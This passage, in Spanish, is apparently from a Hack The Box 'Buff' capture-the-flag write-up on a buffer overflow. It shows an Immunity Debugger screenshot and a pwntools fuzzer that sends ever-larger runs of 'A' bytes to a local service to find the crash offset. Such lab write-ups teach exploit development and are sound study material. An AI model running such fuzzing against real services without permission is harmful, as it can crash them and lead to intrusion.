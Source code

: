 ![](/images/HTB/Buff/69-immunity-debugger.png)

---

### Obteniendo el offset

Normalmente crearía un fuzzer automático que vaya incrementando su valor en bytes por cada iteración y que envíe esa data a la app vulnerable, como el que se muestra a continuación.

```python
#!/usr/bin/python3
from pwn import *

host = "127.0.0.1"
port = 8888
buf = b""
context.log_level = 'error'

while True:
    try:
        buf += b'A'*100 
        r = remote(host, port)
        print("[+] Enviando {} bytes".format(len(buf))) 
        r.send(buf)
        r.close()
    except Exception as e:
        log.info(str(e))
```
{: file="fuzzer.py" }
